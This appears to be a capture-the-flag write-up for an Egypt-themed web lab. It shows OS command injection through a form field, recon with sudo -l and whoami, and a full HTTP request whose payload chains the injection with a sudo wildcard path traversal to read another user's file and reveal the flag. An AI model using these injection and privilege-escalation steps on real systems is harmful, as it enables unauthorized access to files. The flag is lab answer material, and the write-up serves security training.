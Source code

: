 
You stand before the ancient device, a portal to the Egyptian underworld. This sacred technology, powered by the wisdom of Thoth, allows communication with the realm of the dead. For thousands of years, high priests used this oracle to unveil the fate of departed souls as they journeyed through Duat.

Note 1: This lab session is limited to 60 minutes. Once the session expires, a new instance will be provided. The lab environment will remain the same, but you may need to repeat certain steps.

Note 2: Your browser may display a security warning due to the lab's SSL certificate. This is expected and does not indicate any real security risk.

Tools needed: Burp Suite or equivalent

The response when special characters is url encoded.


when entering a first ; and a command the result of the commmand is printed as a comment down i the HTML.


```
ritual_1.log
<!-- System Log: Ritual 1 performed at 2025-04-22 08:15:23
Offering: wheat
Presiding Priest: Amenhotep
Note: High Priest keeps sacred_scroll.txt in their home directory. -->
```

```
ritual_2.log
<!-- System Log: Ritual 2 performed at 2025-04-22 10:30:45
Offering: bread
Presiding Priest: Ramose
Warning: Remember that the power of sudo must be wielded with precision. Always specify the full path to commands. -->
```

```
ritual_3.log
<!-- System Log: Ritual 3 performed at 2025-04-22 14:22:10
Offering: gold
Presiding Priest: Ptahmose
Note: Guard the sacred /path/, for each /traversal/ may awaken curses best left untouched. -->
```


```
sudo -l
<!-- System Log: User www-data may run the following commands on oracle-server:
    (high_priest) NOPASSWD: /usr/bin/cat /var/log/ritual/*
 -->
```

```
pwd
<!-- System Log: /var/www/html -->
```

```
whoami
<!-- System Log: www-data -->
```

```
sudo+-u+high_priest
<!-- System Log: sudo: sorry, you may only run /usr/bin/cat /var/log/ritual/* as high_priest on oracle-server -->
```


```

POST / HTTP/1.1
Host: 64.225.103.251:5006
Cookie: session=eyJpbnN0YW5jZV9pZCI6ImM2YjBiODUyLWVjOWEtNDhiOC04YjI4LWViNTc2ZjQ0NzA0MiJ9.aBMi8w.be-udodyFJl9f70rz9d6hbtzeww
Content-Length: 100
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5006
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5006/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

name=%3Bsudo+-u+high_priest+/usr/bin/cat+/var/log/ritual/../../../home/high_priest/sacred_scroll.txt


------
<!-- System Log: O24{th3_scr1b3_r3v34ls_h1dd3n_tr34sur3s} -->
```
